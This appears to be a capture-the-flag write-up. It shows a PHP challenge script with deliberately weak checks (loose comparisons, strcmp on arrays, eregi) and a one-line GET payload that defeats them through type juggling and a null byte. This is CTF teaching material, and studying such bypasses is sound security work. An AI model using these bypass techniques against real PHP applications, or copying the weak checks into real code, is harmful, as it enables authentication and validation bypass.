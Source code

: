 # Challenge
```php 
<?php
show_source(__FILE__);
$v1=0;$v2=0;$v3=0;
$a=(array)json_decode(@$_GET['foo']);
if(is_array($a)){
    is_numeric(@$a["bar1"])?die("nope"):NULL;
    if(@$a["bar1"]){
        ($a["bar1"]>2016)?$v1=1:NULL;
    }
    if(is_array(@$a["bar2"])){
        if(count($a["bar2"])!==5 OR !is_array($a["bar2"][0])) die("nope");
        $pos = array_search("nudt", $a["a2"]);
        $pos===false?die("nope"):NULL;
        foreach($a["bar2"] as $key=>$val){
            $val==="nudt"?die("nope"):NULL;
        }
        $v2=1;
    }
}
$c=@$_GET['cat'];
$d=@$_GET['dog'];
if(@$c[1]){
    if(!strcmp($c[1],$d) && $c[1]!==$d){
        eregi("3|1|c",$d.$c[0])?die("nope"):NULL;
        strpos(($c[0].$d), "htctf2016")?$v3=1:NULL;
    }
}
if($v1 && $v2 && $v3){
    include "flag.php";
    echo $flag;
}
?>
```

# Solution
payload：
```
?foo={"bar1":"2017e","bar2":[[],2,3,4,5],"a2":["nudt"]}&cat[0]=ahtctf2016&cat[1][]=&dog=%00
```

# Refference
 + [chybeta: php是最好的语言](https://chybeta.github.io/2017/08/18/XNUCA-2017-Web%E4%B8%93%E9%A2%98%E8%B5%9B%E5%89%8D%E6%8C%87%E5%AF%BC-php%E6%98%AF%E6%9C%80%E5%A5%BD%E7%9A%84%E8%AF%AD%E8%A8%80-writeup/#more)